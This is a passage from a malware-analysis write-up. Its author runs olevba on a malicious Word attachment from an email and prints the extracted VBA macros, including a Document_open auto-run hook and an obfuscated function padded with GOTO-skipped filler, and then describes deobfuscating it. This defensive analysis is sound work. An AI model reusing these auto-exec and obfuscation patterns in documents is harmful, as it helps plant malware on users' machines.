 The document appears to contain **VBA macros** set to automatically execute upon opening. Using the same set of tools, we could extract the three detected macros (of which only the last one contained interesting code).

```shell
$ olevba -c '15140-30-122020-5-42286.doc'
olevba 0.56 on Python 3.8.6 - http://decalage.info/python/oletools
===============================================================================
FILE: /home/alex/ethical_hacking/email_viruses/15140-30-122020-5-42286/15140-30-122020-5-42286.doc
Type: OLE
ERROR    invalid value for PROJECTDOCSTRING_Id expected 0005 got 0032
-------------------------------------------------------------------------------
VBA MACRO T77vhvocooru69svd.cls
in file: /home/alex/ethical_hacking/email_viruses/15140-30-122020-5-42286/15140-30-122020-5-42286.doc - OLE stream: 'Macros/VBA/T77vhvocooru69svd'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Private Sub Document_open()
R56_jx62hkjlsm
End Sub
-------------------------------------------------------------------------------
VBA MACRO Ixk24i1ovj_jjd.bas
in file: /home/alex/ethical_hacking/email_viruses/15140-30-122020-5-42286/15140-30-122020-5-42286.doc - OLE stream: 'Macros/VBA/Ixk24i1ovj_jjd'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
(empty macro)
-------------------------------------------------------------------------------
VBA MACRO Zm6erye0ms_u.bas
in file: /home/alex/ethical_hacking/email_viruses/15140-30-122020-5-42286/15140-30-122020-5-42286.doc - OLE stream: 'Macros/VBA/Zm6erye0ms_u'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Function R56_jx62hkjlsm()
On Error Resume Next
mKbjhqs = T77vhvocooru69svd.StoryRanges.Item(4 / 4)
   GoTo GfsQIDHId
Dim CrIUuEVIH As Object
Set CrIUuEVIH = CreateObject("Scripting.FileSystemObject")
Dim GfsQIDHId As Object
Set GfsQIDHId = CrIUuEVIH.CreateTextFile("K:\ognWFHGLH\axqgNAI.kcbGHdI")
GfsQIDHId.WriteLine " "
GfsQIDHId.Close
[...]
```

The VBA code was obviously obfuscated, but with a bit of elbow oil, we managed to manually replace all variable names to intelligible words and obtain some comprehensible code. On the “relabelled” script, it appeared that the most part of the code was just a “filler”, constantly jumped over by GOTOs. Therefore, I removed all the unneeded blocks and only left the used instructions, which appeared to be constructing a long string to be decoded.

Original VBA code:

```vb
Attribute VB_Name = "Zm6erye0ms_u"
Function R56_jx62hkjlsm()
On Error Resume Next
mKbjhqs = T77vhvocooru69svd.StoryRanges.Item(4 / 4)
   GoTo GfsQIDHId
Dim CrIUuEVIH As Object
Set CrIUuEVIH = CreateObject("Scripting.FileSystemObject")
Dim GfsQIDHId As Object
Set GfsQIDHId = CrIUuEVIH.CreateTextFile("K:\ognWFHGLH\axqgNAI.kcbGHdI")
GfsQIDHId.WriteLine " "
GfsQIDHId.Close
Set CrIUuEVIH = Nothing
Set GfsQIDHId = Nothing
GfsQIDHId:
```